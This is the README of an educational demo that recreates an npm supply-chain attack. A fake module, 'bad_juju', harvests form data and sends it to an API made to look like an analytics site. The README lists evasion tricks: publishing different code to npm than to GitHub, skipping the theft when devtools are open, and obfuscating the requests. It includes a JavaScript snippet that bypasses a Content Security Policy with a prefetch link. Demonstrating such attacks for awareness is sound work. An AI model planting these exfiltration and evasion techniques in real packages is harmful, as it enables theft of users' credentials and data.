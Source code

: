If you're like me, you have grown to love how productive you can be using NPM. There is a staggering number of common problems that have already been solved. As developers, we tend to have a great deal of trust towards NPM and the code that it hosts. How often do we carefully examine the code we are about to import into our projects?

The following project aims to show the dangers of blindly importing NPM modules. It shows how just because you can see the code on Github does not mean the module you are importing is safe. It also demonstrates how all it takes is one disgruntled employee to start harvesting user's data, both silently and indefinitely. It shows just how hard it is to sniff out such an attack by utilizing some clever tricks. Finally, it aims to show how as our javascript project's dependencies grow, our risk of being affected by such an attack increases dramatically.

##### Credit

This entire project is based off [this Medium Post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). Credit to it's author, David Gilbertson, for all the ideas and even some of the code.

##### What all is here?

1. A basic React app with some form inputs that we will harvest
    * Created with create-react-app
    * found in /demo/src
2. A npm module, 'bad_juju', that will house our malicious code while presenting itself as a useful module
    * found in /node_modules/bad_juju
3. An api to receive the form data
    * Express server

##### Running the React Application

```javascript
# within demo dir
> yarn
> yarn start
```

##### Running the API

```javascript
# within demo dir
> yarn
> node ./api
```

##### How does the attack work?

1. User creates seemingly useful node_module
2. When imported, our node_module applies exploit to all forms on the site/application
3. Send all form data to an API - this should a) not be visible to humans and b) appear as though its just an analytics link
4. Be clever about how/when we send the form data and use all the information available to judge how safe it is to send
5. Make Pull Requests to Open Source projects and attempt to add our dependency to the project
6. Sit back and watch the data pour in

##### What shows in Github is not necessarily what is in NPM
using .gitignore, .npmignore, and the files configuration option in our package.json, we can have different code in NPM than what shows in Github. So you really have no clue what code you are running from NPM, even if you have complete access to the github source. The only way to check this would be to check the 3 config files from the first sentence of this section. I bet you don't do that every time you install an NPM module, do you?


##### Content Security Policy
This is supposed to be our saving grace, right? Wrong. In Chrome, we can bypass the content security policy using the following code
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

##### Why is NPM the distribution method?
When we add a dependency to our project, NPM will automatically pull in all of this new dependency's dependencies. This means that if one popular package gets infected, it will likely spread to hundreds or thousands of smaller packages. An infected top level package would be bad news for everyone. Remember left_pad?

##### So what... I can never use NPM modules?
Well that certainly is one option... If you truly want to ensure that you will never fall victim to this attack, you must isolate any pages with sensitive form data outside of the scope of the NPM modules. Example, for a login or checkout screen, you may want to embed an isolated page within an iFrame. This way no offending code will be able to attack the content with the iFrame. As a simple solution, one could stick to some good old fashion HTML.

##### Presenting this content
I created this project for a couple of reasons, namely, to recreate what David Gilbertson has described in his blog post. I ended up having a ton of fun setting this up, and wanted to turn it into a short talk - not unlike those you may find at a developers conference. 

Without further ado, here's the order I settled on when presenting:

1) Background terminology
    * What is NPM?
    * What is Content-Security-Policy? CORS?
    * What is fetch?
2) Demo the React Application + Look at the App/Form code
3) Demo the api + Look at the api code
    * Reminder that in the real world, the domain would look like an analytics site
4) Toggle on various checks in the code
    1) QA working
    2) Devtools open (The Heisenberg Manuever)
    3) Randomize attempts
    3) Known Devices
    4) In Dev/UAT/QA/Staging environment
5) Gitignore and Npmignore tricks
6) Obfuscated fetch (cipher technique + EventSource API)
7) Content-Security-Policy Bypasses
    * Append created link element w/ prefetch
    * report-uri not explicitly set
    * default-uri not explicitly set
    * Pre-reading the active Content-Security-Policy and acting on it
    * undefined form-action override
      * only perform once and bounce back - hope the user just shrugs it off
8) What can you do about it?
9) Questions/Comments


##### Possible Improvements
* Failed api requests should fail silently
* This demo got more involved than I was anticipating, proper tests around the exploit would be nice.
* A more elegant (read: functional) way to configure/run the various safety nets

